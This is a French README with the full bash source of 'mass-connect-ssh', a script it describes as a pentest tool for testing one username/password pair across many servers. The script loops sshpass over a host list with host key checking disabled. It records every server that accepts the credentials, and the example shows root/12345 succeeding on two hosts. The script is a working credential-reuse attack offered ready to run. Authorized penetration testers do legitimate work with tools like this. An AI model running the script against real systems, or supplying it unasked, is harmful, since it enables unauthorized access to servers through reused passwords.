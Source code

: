 # mass-connect-ssh
Ce script bash permet à un pentesteur de tester une paire identifiant/mdp sur un nombre illimité de serveurs. Ce script peut être exécuté dans le cadre d'un pentest. Quand un serveur est compromis, qu'un mot de passe et un identifiant sont découverts, il se peut que ces identifiants soient identiques sur d'autres serveurs.
Ce script permet donc d'automatiser des connexions ssh sur plusieurs serveurs.

1 - Paquets à installer : sshpass
      Ubuntu : sudo apt install sshpass
      CentOS : yum install sshpass
      
2 - Modifier les variables
      user="utilisateur_a_tester" (changer la valeur de cette variable et y insérer le nom d'utilisateur à tester)
      mdp="mot_de_passe_a_tester" (changer la valeur de cette variable et y insérer le mot de passe à tester)
      
3 - Ajouter les serveurs à tester
      Ajouter la liste de serveur à tester dans le tableau arr=()
      
5 - Résultats
      Les résultats sont stockés dans le fichier host.txt
      
6 - Exemple

    ./mass-connect-ssh.sh
    
      #!/bin/bash

      ## Author :	Proc3ssor
      ## Contact : jeanjestin@gmail.com

      arr=(
      serveur1.com
      serveur2.com
      serveur3.net
      exemple.net
      )
      length=${#arr[@]}
      user="root"
      mdp="12345"

      for ((i=0; i<$length; i++))
      do
      sshpass -p $mdp ssh -o ConnectTimeout=1 -o StrictHostKeyChecking=no -o GSSAPIAuthentication=no  $user@${arr[i]} "hostname" >> host.txt
      done

    host.txt
    serveur2.com
    exemple.net

Les serveurs "serveur2.com" et "exemple.net" ont pour identifiant de connexion : root/12345
